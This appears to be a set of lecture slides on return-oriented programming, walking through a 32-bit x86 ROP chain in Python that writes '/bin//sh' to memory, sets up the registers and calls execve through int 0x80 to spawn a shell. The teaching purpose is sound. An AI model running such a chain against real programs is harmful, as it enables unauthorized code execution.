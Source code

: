 \documentclass[11pt]{beamer}
\begin{document}
\begin{frame}[fragile]
    \frametitle{Working example: Putting it together, writing //sh}
    \begin{lstlisting}[style=code, language=python]
p += pack('<I', 0x080958b5) # pop edx; xor eax, eax; pop edi; ret;
p += pack('<I', 0x080f0f70) # @ .data + 4
p += pack('<I', 0x00000000) # @ NULL
p += pack('<I', 0x080b526a) # pop eax ; ret
p += '//sh'
p += pack('<I', 0x08059402) # mov dword ptr [edx], eax ; ret
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Working example: Putting it together, init params}
    \begin{lstlisting}[style=code, language=python]
# write null byte after /bin/sh
p += pack('<I', 0x080958b5) # pop edx; xor eax, eax; pop edi; ret;
p += pack('<I', 0x080f0f74) # @ .data + 8
p += pack('<I', 0x00000000) # @ NULL
p += pack('<I', 0x080506c0) # xor eax, eax ; ret
p += pack('<I', 0x08059402) # mov dword ptr [edx], eax ; ret
# write address of /bin/sh to ebx
p += pack('<I', 0x08049022) # pop ebx ; ret
p += pack('<I', 0x080f0f6c) # @ .data
# arguments and environment to ecx,edx
p += pack('<I', 0x0805e64f) # pop ecx; add al, 0xf6; ret;
p += pack('<I', 0x080f0f74) # @ .data + 8
p += pack('<I', 0x080958b5) # pop edx; xor eax, eax; pop edi; ret;
p += pack('<I', 0x080f0f74) # @ .data + 8
p += pack('<I', 0x00000000) # @ NULL
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Working example: Putting it together, init params, syscall}
    \begin{lstlisting}[style=code, language=python]
p += pack('<I', 0x080506c0) # xor eax, eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08082a9e) # inc eax ; ret
p += pack('<I', 0x08049b2a) # int 0x80
print p
    \end{lstlisting}
\end{frame}
\end{document}
